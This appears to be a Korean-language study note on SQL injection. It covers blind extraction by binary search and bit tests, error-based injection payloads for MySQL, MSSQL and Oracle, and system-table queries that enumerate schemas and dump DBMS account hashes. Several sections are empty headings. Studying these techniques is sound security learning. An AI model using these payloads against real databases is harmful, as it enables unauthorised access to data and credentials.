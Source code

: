 # ExploitTech

## Binary Search <br/>
이진 탐색은 이미 정렬된 리스트에서 임의의 값을 효율적으로 찾기 위한 알고리즘. 임의의 값을 찾기 위해 검색 범위를 좁혀나감. <br/>
1. 범위 지정 <br/>
0부터 100까지 사이의 범위 내에 한 숫자만이 정답일 때 범위의 중간 값 지정(50) <br/>
2. 범위 조절 <br/>
정답이 50보다 큰값인지 확인. 그렇다면 51~100으로, 아니라면 0~49로 조정. 이 과정을 반복하면서 범위를 좁혀가며 정답을 찾음. <br/>

> example
> username : admin / password : P@ssword
> 비밀번호에 포함될 수 있는 아스키에서 출력 가능한 문자의 범위는 32~126임
> 중간값인 79보다 큰값인지 확인
> 이러한 과정을 반복 또는 쿼리로 사용
> 
> select * from users where username='admin' and ascii(substr(password, 1,1)) > 79;

<br/>
<br/>

## Bit 연산<br/>
ASCII는 0부터 127 범위의 문자를 표현할 수 있으며, 이는 곧 7개의 비트를 통해 하나의 문자를 나타낼 수 있다는 것을 의미. <br/>
하나의 비트는 0과 1로 이뤄져 있으므로 7개의 비트에 대해 1인지 비교하면 총 7번의 쿼리로 임의 데이터 한 바이트를 알아낼 수 있음. <br/>
MySQL의 경우 숫자를 비트 형태로 변환하는 bin이라는 함수 제공. <br/>

> example
> username : admin / password : P@ssword
> 첫번째 글자인 P의 경우 비트로 바꾸면 1010000임
> 따라서 substr을 통해서 1이 있는지 없는지를 확인하면 됨
> select * from users where username = 'admin' and substr(bin(ord(password)), 1, 1) = 1

<br />
<br />

## Error based SQL Injection <br/>
임의로 에러를 발생시켜 데이터베이스 및 운영 체제의 정보를 획득하는 공격 기법. 프레임워크 마다 다르지만 debug 모드를 킨 경우 오류에 대한 상세한 내용이 나올 수 있음. <br/>
중요정보를 노출시키기 위해 DBMS에서 쿼리가 실행되기 전에 발생하는 에러가 아닌 런타임(Runtime) 즉, 쿼리가 실행되고나서 발생하는 에러가 필요함. <br/>
아래의 구문은 MySQL 환경에서 해당 기법으로 공격할 때 많이 사용하는 구문임.
```MySQL
    select extractvalue(1, concat(0x3a, version()));
    ERROR 1105 (HY000) : XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
```
위 처럼 에러메시지에 운영 체제에 대한 정보가 포함되어 있음. 해당 쿼리를 이해하려면 extractvalue 함수를 알아야함. <br/>

### extractvalue <br/>
첫번째 인자로 전달된 XML 데이터에서 두 번째 인자인 XPATH 식을 통해 데이터를 추출. 만약 두 번째 인자가 올바르지 않은 XPATH 식일 경우 올바르지 않은 XPATH 식이라는 에러와 함께 잘못된 식을 출력함.<br/>
이를 응용해서 데이터베이스의 정보를 추출할 수도 있음.
```MySQL
    select extractvalue(1, concat(0x3a, (select password from users where username='admin')));
    ERROR 1105 (HY000) : XPATH syntax error : ':Th1s_1s_admin_PASSW@rd'
```

### 각 DBMS별 Error based SQLI <br/>
- MySQL
    - SELECT updatexml(null,concat(0x0a,version()),null);
    - SELECT extractvalue(1,concat(0x3a,version()));
    - SELECT COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;
- MSSQL
    - SELECT convert(int,@@version);
    - SELECT cast((SELECT @@version) as int);
- ORACLE
    - SELECT CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) FROM dual;

## Error based Blind SQL Injection <br/>
앞서 알아본 Blind SQL과 Error based SQLI를 동시에 활용하는 공격 기법.

## Short-circuit evaluation <br/>

## Time based SQL Injection <br/>

## System Tables
### MySQL
1. 시스템 테이블 
information_schema, mysql, performance_schema, sys
2. 스키마 정보
```sql
select TABLE_SCHEMA from information_schema.tables group by TABLE_SCHEMA;
```
3. 테이블 정보
```sql
select TABLE_SCHEMA, TABLE_NAME from information_schema.TABLES;
```
4. 컬럼 정보
```sql
select TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS;
```
5. 실시간 실행 쿼리 정보
```sql
select * from information_schema.PROCESSLIST;   # 실시간 실행 쿼리
select user,current_statement from sys.session; # 계정 및 실시간 실행 쿼리
```
6. DBMS 계정 정보
```sql
select GRANTEE,PRIVILEGE_TYPE,IS_GRANTABLE from information_schema.USER_PRIVILEGES; # DBMS 권한 및 계정 정보
select User, authentication_string from mysql.user; # DBMS 계정 정보
```

### MSSQL
1. 시스템 테이블
master, tempdb, model, msdb
```sql
SELECT name FROM sys.databases
```
2. 데이터베이스 정보
```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(1);
```
3. 테이블 정보
```sql
SELECT name FROM dreamhack..sysobjects WHERE xtype = 'U'; 
SELECT table_name FROM dreamhack.information_schema.tables;
```
4. 컬럼 정보
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users');
SELECT table_name, column_name FROM dreamhack.information_schema.columns;
```
5. DBMS 계정 정보
```sql
SELECT name, password_hash FROM master.sys.sql_logins;
SELECT * FROM master..syslogins;
```

### PostgreSQL
1. 초기 데이터 베이스
postgres, template1, template0
2. 스키마 정보
pg_catalog, infomation_schema
```sql
select nspname from pg_catalog.pg_namespace;
```
3. 테이블 정보
```sql
select table_name from information_schema.tables where table_schema='pg_catalog';
select table_name from information_schema.tables where table_schema='information_schema';
```
4. DBMS 계정 정보
```sql
select usename, passwd from pg_catalog.pg_shadow;
```
5. DBMS 설정 정보
```sql
select name, setting from pg_catalog.pg_settings;
```
6. 실시간 실행 쿼리 확인
```sql
select usename, query from pg_catalog.pg_stat_activity;
```
7. 테이블 정보
```sql
select table_schema, table_name from information_schema.tables;
```
8. 컬럼 정보
```sql
select table_schema, table_name, column_name from information_schema.columns;
```

### Oracle
1. 데이터베이스 정보
```sql
SELECT DISTINCT owner FROM all_tables
SELECT owner, table_name FROM all_tables
```
2. 컬럼 정보
```sql
SELECT column_name FROM all_tab_columns WHERE table_name = 'users'
```
3. DBMS 계정 정보
```sql
SELECT * FROM all_users
```

## DBMS Fingerprinting
SQL Injection 취약점을 발견하면 제일 먼저 알아내야 할 정보는 DBMS의 종류와 버전. 이를 통해 수월한 공격을 할 수 있음. <br/>

### 